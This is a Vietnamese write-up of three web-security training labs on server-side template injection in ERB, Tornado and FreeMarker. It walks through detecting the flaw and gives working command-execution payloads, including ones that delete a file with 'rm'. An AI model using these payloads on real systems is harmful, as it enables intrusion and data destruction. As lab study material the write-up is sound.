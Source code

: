 # Trần Mạnh Huy  SSTI-Server side template injection

* [Lab 1: Basic server-side template injection](#lab-1-basic-server-side-template-injection)
* [Lab 2: Basic server-side template injection (code context)](#lab-2-basic-server-side-template-injection-code-context)
* [Lab 3: Server-side template injection using documentation](#lab-3-server-side-template-injection-using-documentation)


## Lab 1: Basic server-side template injection

```
 This lab is vulnerable to server-side template injection due to the unsafe construction of an ERB template.

To solve the lab, review the ERB documentation to find out how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory. 

```

### Ở bài lab này thì biết được luôn template là ERB, hoặc kh thì ta lên Payload All The Things thử từng cái một cũng được.

Đầu tiên check view details từng sản phẩm, để ý ở sản phẩm đầu tiên trả về message = ***Unfortunately this product is out of stock***, còn những cái khác còn nên vẫn vào bình thường, khai thác SSTI ở đây bằng cách dùng payload hoạt động được trên template erb, khi chạy qua template engine để xử lí, nó sẽ được thực thi. 

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/lab1_01.jpg)

#### Test payload để xác nhận là ssti của erb template: <%= 7*7 %> . Ta được server trả về kết quả: 49. Vậy là xác nhận xong

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/lab1_02.jpg)

#### Tiếp theo đến với việc khai thác, sử dụng **<%= system('pwd') %>** để kiểm tra xem đang nằm ở đâu hoặc dùng **<%= system('ls /) %>** để xem thư mục gốc chứa những file hay folder nào :

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/lab1_03.jpg)

#### Vậy là đang ở trong thư mục /home/carlos . Để hoàn thành thì ls thử được file **morale.txt** . Việc còn lại để hoàn thành bài lab chỉ cần delete file là xong.
Dùng payload: ***<%= system('rm morale.txt) %>***

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/lab1_04.jpg)

## Lab 2: Basic server-side template injection (code context)

```
 This lab is vulnerable to server-side template injection due to the way it unsafely uses a Tornado template. To solve the lab, review the Tornado documentation to discover how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter 

```

#### Bài lab này cần đăng nhập tài khoản, wiener:peter . Sau khi đăng nhập thì check thử phần my account, ta thấy có phần update email với phần preferrd name có thể thực hiện giao thức POST. 

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/lab2_01.jpg)

Thử để giá trị ***first name*** và ***name*** và check phần comment thử: 

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/lab2_02.jpg)

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/lab2_03.jpg)

Rõ ràng là server đã dùng tags để xử lí logic qua template engine, ở đây là template Tornado. Cụ thể ta có check ở burp suite sau khi sửa dổi phần ***preferred name*** thành ***username***và ***submit*** được như sau:

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/lab2_04.jpg)

Để ý thấy phần display=user.username, đúng chuẩn xử lí tags trong template engine luôn, đến đây thay bằng 1 sô payload của Tornado ssti như sau:


```
{{7*7}} = 49
${7*7} = ${7*7}
{{foobar}} = Error
{{7*'7'}} = 7777777
______
{% import foobar %} = Error
{% import os %}

{% import os %}

{{os.system('whoami')}}
{{os.system('whoami')}}
_______

```
Vì user.username đã ở sẵn trong filters (chuyển hóa các giá trị của biến và đối số trong tags) có dạng {{}} nên test chỉ việc dùng 7*7 thay vào chỗ user.username. Ta được:

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/lab2_05.jpg)

#### Bây giờ thực hiện code để xóa file morale.txt thôi nào: 

Dùng payload sau để hiển thị đường dẫn thư mục hiện tại:

```
{% import os %}

{{os.system('whoami')}}

```
Lúc đầu thử truyền vào giá trị {%+import+os+%}+{{os.system('pwd')}} thì toàn hiển thị lỗi, sau 1 lúc thử lại thì nhớ ra là biến đang được xử lí trong filter/tags {{}} . Vì vậy để truyền vào giá trị trên thì cần sửa payload như sau: ***user.nickname}}{%+import+os+%}+{{os.system('pwd')*** . Lúc này template engine sẽ xử lí: {{user.nickname}} {% import os %} và {{os.system('pwd'}}. Ta được:

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/lab2_06.jpg)

#### Đến đây thì tương tự như bài trên, đang ở đường dẫn: /home/carlos nên sửa **pwd** thành **ls** sẽ có file morale.txt được hiển thị. Để giải quyết bài lab, sửa payload thành : 

```
***user.nickname}}{%+import+os+%}+{{os.system('rm morale.txt')*** 
```

Như vậy là ta đã xóa được file morale.txt như bài lab mong muốn.

> Reference link payload: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

## Lab 3: Server-side template injection using documentation

```
 This lab is vulnerable to server-side template injection. To solve the lab, identify the template engine and use the documentation to work out how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials:
content-manager:C0nt3ntM4n4g3r

```
Bài này chứa SSTI ở phần **Edit template**, để ý khi edit template thì các giá trị được hiển thị thông qua ${}, thử truyền ${abcd} để xem có báo lỗi gì kh:

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/lab3_10.jpg)


Hiển thị đây là freeMaker template trong java. 

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/lab3_01.jpg)


Vậy thì tấn công thôi, sử dụng 1 số payload sau để tấn công:

```
{{7*7}} = {{7*7}}
${7*7} = 49
#{7*7} = 49 -- (legacy)
${7*'7'} Nothing
${foobar}
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('id')}
${"freemarker.template.utility.Execute"?new()("id")}

${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('

```
Ở dây dùng **${"freemarker.template.utility.Execute"?new()("ls")}** để xem đường file và folder trong thư mục:

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/lab3_05.jpg)

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/lab3_06.jpg)

Hiển thị file morale.txt, đến đây thì xóa file morale.txt thôi: **${"freemarker.template.utility.Execute"?new()("rm morale.txt")**. Vậy là xong bài lab.

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/lab3_03.jpg)
